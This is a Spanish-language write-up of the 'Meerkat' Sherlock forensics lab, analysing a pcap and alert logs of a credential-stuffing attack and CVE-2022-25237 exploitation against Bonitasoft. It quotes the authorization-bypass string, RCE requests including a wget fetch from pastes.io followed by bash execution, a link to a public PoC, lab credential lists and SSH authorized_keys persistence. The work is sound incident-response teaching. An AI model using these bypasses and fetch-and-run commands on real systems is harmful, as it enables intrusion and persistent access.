

# **Meerkat - Sherlock**

<p style="color: red;">Para este laboratorio se nos proporcionan dos ficheros, un .pcap con capturas de tráfico de red y un fichero .json con logs, vamos a anlizar ambos y respònder las pregutas para saber qué fue lo que pasó.</p>

Los logs provienen de Zeek (anteriormente conocido como Bro), herramienta de código abierto para monitorear la seguridad de la red y analizar el tráfico de red. Permite detectar amenazas y anomalías, así como rastrear la actividad de DNS, HTTP, y FTP. Es utilizado para la detección de intrusiones en la red (NIDS) y el monitoreo de seguridad de red (NSM). 
El funcionamiento de Zeek se basa en los siguientes componentes:

- Analizador de tráfico de red:
  Zeek analiza los paquetes de tráfico de red y crea registros que pueden ser utilizados para la detección de actividad maliciosa. 
- Lenguaje de scripting:
  Zeek utiliza un lenguaje de scripting específico del dominio que permite a los usuarios crear scripts personalizados para analizar el tráfico de red y generar alertas. 
- Motor de reglas:
  Los scripts de Zeek pueden definir reglas para detectar patrones de tráfico maliciosos y generar alertas. 
 


Usaremos wireshark/tshark y **jq**, una herramienta poderosa que nos permite leer ficheros json en un formato más agradable para la vista. Ya saben, para instalar `sudo apt update && sudo apt install jq`

---
**task 1**

Creemos que nuestro servidor de la Plataforma de Gestión Empresarial ha sido comprometido. Por favor, ¿puede confirmar el nombre de la aplicación que se está ejecutando?

Primero vamos a explicar un poco la estructura típica de un log de Zeek en formato JSON

Cuando Zeek exporta datos como JSON (ya sea directamente o por herramientas como `zeek-cut` + transformaciones), cada evento suele estar estructurado en forma de objetos con muchos campos.

Un ejemplo simplificado de una entrada de alerta:
```json
{
  "ts": 1617181933.123456,
  "uid": "C8kE2Z1uBa1xqN",
  "id": {
    "orig_h": "192.168.1.10",
    "orig_p": 49232,
    "resp_h": "10.10.10.10",
    "resp_p": 80
  },
  "proto": "tcp",
  "alert": {
    "signature": "ET MALWARE Possible Meterpreter Reverse TCP",
    "category": "A Network Trojan was Detected",
    "action": "allowed"
  }
}
```

Algunos campos comunes que se encuentran en logs de Zeek

Depende del tipo de log (conn.log, dns.log, http.log, notice.log, etc), pero algunos campos que verán a menudo son:
| Campo           | Descripción |
|------------------|-------------|
| `ts`             | Timestamp del evento |
| `uid`            | Unique ID de la conexión/sesión |
| `id.orig_h` / `id.resp_h` | IP origen / destino |
| `id.orig_p` / `id.resp_p` | Puerto origen / destino |
| `proto`          | Protocolo (tcp, udp, etc.) |
| `alert.signature` | Regla o firma que se activó |
| `alert.category` | Tipo de amenaza detectada |
| `alert.action`   | Acción que tomó el sistema (e.g., `allowed`, `blocked`) |

**Con esto explicado** podemos aplicar el siguiente filtro para reponder la pregunta: 

```bash 
└─$ jq '.[].alert.signature' meerkat-alerts.json 
"ET CINS Active Threat Intelligence Poor Reputation IP group 82"
"ET DROP Dshield Block Listed Source group 1"
"ET DROP Dshield Block Listed Source group 1"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management"
"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
"ET INFO User-Agent (python-requests) Inbound to Webserver"
"GPL WEB_SERVER DELETE attempt"
"ET INFO User-Agent (python-requests) Inbound to Webserver"
null
``` 

Vemos un log relacionado con Bonitasoft, que es una plataforma open-source de gestión de procesos de negocio (BPM - Business Process Management), este es el nombre de la plataforma que estamos buscando. 
También indica que hubo intento de explotación, lo cual sugiere que:
- Bonitasoft está instalado y en ejecución.
- Fue el objetivo del ataque.
- El sistema podría haber sido comprometido a través de esa app.

---
**task 3** 

Creemos que el atacante puede haber utilizado un subconjunto de la categoría de ataques de fuerza bruta - ¿cuál es el nombre del ataque llevado a cabo?

Investigando el CVE anterior, vemos que esta vulnerabilidad permite a usuarios sin privilegios ejecutar acciones privilegiadas a través de la API, incluyendo la posibilidad de ejecutar código malicioso en el servidor. Por lo que es probable que el atacante haya tenido que obtener acceso a un usuario válido antes de ejecutar el ataque. 

Así que fitramos por http para ver si hubo intentos de autenticación en el sistema: 

```bash 
─$ tshark -r meerkat.pcap -Y "http"
 2134 100.889598 156.146.62.213 53187 172.31.6.44  8080 HTTP 575 GET /bonita HTTP/1.1 
 2136 100.890045  172.31.6.44 8080 156.146.62.213 53187 HTTP 221 HTTP/1.1 302   [Last Chunk]
 2145 101.257636 156.146.62.213 53187 172.31.6.44  8080 HTTP 634 GET /bonita/portal/homepage HTTP/1.1 
 2146 101.261177  172.31.6.44 8080 156.146.62.213 53187 HTTP 518 HTTP/1.1 302  
 2158 116.943123 156.146.62.213 53196 172.31.6.44  8080 HTTP 105 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2165 119.946188  172.31.6.44 8080 156.146.62.213 53196 HTTP 187 HTTP/1.1 401  
 2170 120.127758 156.146.62.213 53196 172.31.6.44  8080 HTTP 130 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2177 123.131170  172.31.6.44 8080 156.146.62.213 53196 HTTP 187 HTTP/1.1 401  
 2186 123.569818 156.146.62.213 53198 172.31.6.44  8080 HTTP 105 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2189 126.573059  172.31.6.44 8080 156.146.62.213 53198 HTTP 187 HTTP/1.1 401  
 2192 126.847657 156.146.62.213 53198 172.31.6.44  8080 HTTP 126 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2195 129.851076  172.31.6.44 8080 156.146.62.213 53198 HTTP 187 HTTP/1.1 401  
 2204 130.287593 156.146.62.213 53201 172.31.6.44  8080 HTTP 105 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2207 133.290730  172.31.6.44 8080 156.146.62.213 53201 HTTP 187 HTTP/1.1 401  
 2210 133.466889 156.146.62.213 53201 172.31.6.44  8080 HTTP 129 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2215 136.470214  172.31.6.44 8080 156.146.62.213 53201 HTTP 187 HTTP/1.1 401  
 2224 136.941119 156.146.62.213 53203 172.31.6.44  8080 HTTP 105 POST /bonita/loginservice HTTP/1.1  (application/x-www-form-urlencoded)
 2227 139.944305  172.31.6.44 8080 156.146.62.213 53203 HTTP 187 HTTP/1.1 401
``` 

Parece que hubo varios intentos de autenticación, así que vamos a revisar el contenido, es tráfico http así que podemos ver los datos que se enviaron, usemos el siguiente script para confirmar: 

```bash 
└─$ tshark -r meerkat.pcap -Y "http" -T fields -e urlencoded-form.value | awk 'NF' | tr ','  '\n' | awk '{print $1, $2}' | grep -vE "install|en"
Clerc.Killich@forela.co.uk 
vYdwoVhGIwJ 
wsp0Uy 
Merna.Rammell@forela.co.uk 
u7pWoF36fn 
Gianina.Tampling@forela.co.uk 
maUIffqQl 
Konstance.Domaschke@forela.co.uk 
6XLZjvD 
Vida.Murty@forela.co.uk 
4ulecG 
Elka.Cavet@forela.co.uk 
n1aSdc 
Noam.Harvett@forela.co.uk 
VDt8bh 
Norbie.Bartolini@forela.co.uk 
GV2zlop 
Cariotta.Whife@forela.co.uk 
x3hoU0 
Mella.Amsberger@forela.co.uk 
4nIYM5WqN 
ybWxct 
dC7bjGLYB 
LPU0qQnt108 
Osborne.Humpatch@forela.co.uk 
OJ4WHcI4D 
Talya.Sterman@forela.co.uk 
3gCERZ2JMh 
Drusilla.Nice@forela.co.uk 
l35Euh0T3Am
``` 

Notemos que los correos tienen el mismo nombre de dominio, parece que está intentando con credenciales robadas o exfiltradas de algún sitio de la darkweb. 

Ahora para saber que técnica de fuerza bruta se intentó con esto podemos revisar la página de [brute force techniques en MITTRE ATT&C](https://attack.mitre.org/techniques/T1110/)

Y tenemos las siguientes: 

Password guessing: Los adversarios sin conocimiento previo de las credenciales legítimas
dentro del sistema o entorno pueden adivinar las contraseñas para intentar acceder a las cuentas.
Password Cracking: Los adversarios pueden utilizar el descifrado de contraseñas para intentar recuperar credenciales utilizables, como contraseñas en texto plano, cuando se obtiene material de credenciales como hashes de contraseñas.
Password Spraying: Los agresores pueden utilizar una sola contraseña o una pequeña lista de contraseñas de uso común contra muchas cuentas diferentes para intentar obtener credenciales de cuentas válidas.
Credential Stuffing: Los agresores pueden utilizar credenciales obtenidas de volcados de brechas de cuentas no relacionadas para obtener acceso a cuentas objetivo mediante la superposición de credenciales.

Así que se puedo confirmar que se usó la técnica de **Credential stuffing**, porque no se están usuando usurios aleatorios, ni se están usando la misma contraseña para varios usuario. 

---
**task 3**

¿La vulnerabilidad explotada tiene asignado un CVE y, en caso afirmativo, cuál?

Claro que tiene, es la que se reportó en los logs que revisamos en la pregunta 1, la CVE-2022-25237. 

La vulnerabilidad **CVE-2022-25237** afecta a **Bonita Web 2021.2**, una plataforma de gestión de procesos de negocio (BPM) desarrollada por Bonitasoft. Esta falla permite a atacantes no autenticados eludir mecanismos de autorización y acceder a endpoints privilegiados de la API REST, lo que puede derivar en la ejecución remota de código (RCE).

### Detalles Técnicos

- **Causa**:Un patrón de exclusión demasiado amplio en el filtro de autorización de la API REST (`RestAPIAuthorizationFilter`)
- **Método de Explotación**:Al agregar cadenas como `;i18ntranslation` o `/../i18ntranslation/` al final de una URL, un atacante puede evadir la autorización y acceder a endpoints restringidos
- **Impacto**:Permite a usuarios sin privilegios ejecutar acciones privilegiadas a través de la API, incluyendo la posibilidad de ejecutar código malicioso en el servidor

###  Severidad

- **CVSS v3.1**:9.8 (Crítica)
- **Vector**:AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:
Esto indica que la vulnerabilidad es explotable de forma remota, sin necesidad de autenticación o interacción del usuario, y puede comprometer completamente la confidencialidad, integridad y disponibilidad del sistema afectado


### Versiones Afectadas y Soluciones

- **Versiones Vulnerables** Bonita Web 2021.2 y anteriore.
- **Versiones Corregidas**:
   Para la comunidad: 2022.1-u0 (7.14.)
   Para suscriptore:
    - 2022.1-u0 (7.14.0)
    - 2021.2-u4 (7.13.4)
    - 2021.1-0307 (7.12.11)
    - 7.11.7


Se ha publicado un script de prueba de concepto (PoC) en GitHub que demuestra cómo explotar esta vulnerabilidad:

- [PoC en GitHub](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2022-25237/CVE-2022-25237.py)


### Referencias

- [NVD - CVE-2022-25237](https://nvd.nist.gov/vuln/detail/CVE-2022-25237)
- [Rhino Security Labs - Análisis detallado](https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/)


--- 
**task 4** 

¿Qué cadena se añadió a la ruta URL de la API para evitar el filtro de autorización mediante el exploit del atacante?

Por lo que explicamos en el reporte anterior, los strings que se empleban para bypassear la verificación eran `;i18ntranslation` o `/../i18ntranslation/`, así que veamos si el atacante las usó: 

```bash 
└─$ tshark -r meerkat.pcap -Y "http.request.method == POST" | grep -E "\;i18ntranslation|i18ntranslation" 
 2918 333.716105 156.146.62.213 53272 172.31.6.44  8080 HTTP 1215 POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1 
 2925 333.894840 156.146.62.213 53272 172.31.6.44  8080 HTTP/JSON 149 POST /bonita/API/portal/page/;i18ntranslation HTTP/1.1 , JSON (application/json)
 3573 547.694725 138.199.59.221 53382 172.31.6.44  8080 HTTP 1215 POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1 
 3580 547.862790 138.199.59.221 53382 172.31.6.44  8080 HTTP/JSON 148 POST /bonita/API/portal/page/;i18ntranslation HTTP/1.1 , JSON (application/json)
 3639 561.707509 138.199.59.221 53386 172.31.6.44  8080 HTTP 1215 POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1 
 3646 561.869448 138.199.59.221 53386 172.31.6.44  8080 HTTP/JSON 148 POST /bonita/API/portal/page/;i18ntranslation HTTP/1.1 , JSON (application/json)
 3735 587.061783 138.199.59.221 53401 172.31.6.44  8080 HTTP 1215 POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1 
 3742 587.227242 138.199.59.221 53401 172.31.6.44  8080 HTTP/JSON 149 POST /bonita/API/portal/page/;i18ntranslation HTTP/1.1 , JSON (application/json)
``` 

Y parece que si usó esos strings. 

---
**task 5**

Bien, ya habíamos usado un comando para ver con qué usuarios se realizó el ataque, ahora ordenemos, eliminemos duplicados y contemos las líneas: 
```bash 
└─$ tshark -r meerkat.pcap -Y "http" -T fields -e urlencoded-form.value | awk 'NF' | grep "@" | sort | uniq | wc -l               
56
``` 

--- 
**task 6**

Pues, por pura intuición diríamos que las credenciales de usuario que finalmente dieron acceso fueron las últimas en aparecer en el registro, así que aplicamos el siguiente comando: 

```bash 
└─$ tshark -r meerkat.pcap -Y "http" -T fields -e urlencoded-form.value | awk 'NF' | grep "@" | tail -n 1   
seb.broom@forela.co.uk,g0vernm3nt,en
```

---
**task 8** 

En caso afirmativo, ¿qué sitio de intercambio de textos utilizó el atacante?

Bueno, una vez que el atacante esta dentro del sistema, podemos buscar peticiones GET para obtener contenido de internet: 

```bash 
└─$ tshark -r meerkat.pcap -Y "http.request.method == GET"                                               
 2134 100.889598 156.146.62.213 53187 172.31.6.44  8080 HTTP 575 GET /bonita HTTP/1.1 
 2145 101.257636 156.146.62.213 53187 172.31.6.44  8080 HTTP 634 GET /bonita/portal/homepage HTTP/1.1 
 2931 334.077683 156.146.62.213 53272 172.31.6.44  8080 HTTP 399 GET /bonita/API/extension/rce?p=0&c=1&cmd=whoami HTTP/1.1 
 3586 548.039114 138.199.59.221 53382 172.31.6.44  8080 HTTP 410 GET /bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd HTTP/1.1 
 3652 562.041274 138.199.59.221 53386 172.31.6.44  8080 HTTP 432 GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.1 
 3748 587.400997 138.199.59.221 53401 172.31.6.44  8080 HTTP 410 GET /bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8 HTTP/1.1 
 4152 854.697943  172.31.6.44 37022 54.144.148.213 80 HTTP 241 GET /ubuntu/pool/main/l/lapack/libblas3_3.10.0-2ubuntu1_amd64.deb HTTP/1.1 
 4182 854.706337  172.31.6.44 37022 54.144.148.213 80 HTTP 1004 GET /ubuntu/pool/universe/libl/liblinear/liblinear4_2.3.0%2bdfsg-5_amd64.deb HTTP/1.1 GET /ubuntu/pool/main/l/lua5.3/liblua5.3-0_5.3.6-1build1_amd64.deb HTTP/1.1 GET /ubuntu/pool/universe/l/lua-lpeg/lua-lpeg_1.0.2-1_amd64.deb HTTP/1.1 GET /ubuntu/pool/universe/n/nmap/nmap-common_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_all.deb HTTP/1.1 GET /ubuntu/pool/universe/n/nmap/nmap_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_amd64.deb HTTP/1.1 
``` 

Y vemos que se hizo una petición al sitio **`pastes.io`**

### ¿Para qué sirve el sitio **pastes.io**?

**[pastes.io](https://pastes.io/)** es un **sitio de intercambio de textos**, también conocidos como *pastebins*. Sirve para:
- Publicar texto plano de forma temporal o permanente.
- Compartir rápidamente código, logs, comandos, scripts, etc.
- Obtener un enlace directo (como `/raw/...`) que devuelve el contenido sin formato HTML (solo el texto).

El atacante lo usó para **almacenar y luego descargar comandos maliciosos o scripts**. En tu caso:

```
wget https://pastes.io/raw/bx5gcr0et8
```

Esto le permite:
- Evitar cargar el payload directamente desde su IP (evade detección).
- Mantener el contenido editable/remoto.

---
**task 8**

Bien, para esto podemos visitar el enlace para saber de qué se trata el fichero: 


El atacante agregó el contenido del fichero **`hffgra4unv`** fichero **`authorized_keys`** del servidor para poder conectarse a este sin proporcionar contraseña, tecnica para mantener persistencia en el servidor. 

---
**task 9** 


---
**task 10**

¿Puede confirmar el ID de la técnica MITRE de este tipo de mecanismo de persistencia?


Para esto tenemos que ir a la página de [MIITRE ATT&CK]() en la columna de *Persistence*, en *Account Manipulation* 



<div style="
  background: #1a1a1a;
  border-radius: 16px;
  box-shadow: 0 4px 12px rgba(0,0,0,0.6);
  padding: 1rem;
  margin: 2rem 0;
">
  <h3 style="margin-top: 0; color: #e91e63;">Título de la tarjeta</h3>
  <p>Contenido descriptivo con un estilo más “elevado”.</p>
  <a href="#" style="
    color: #03a9f4;
    text-decoration: none;
    font-weight: bold;
  ">Leer más →</a>
</div>
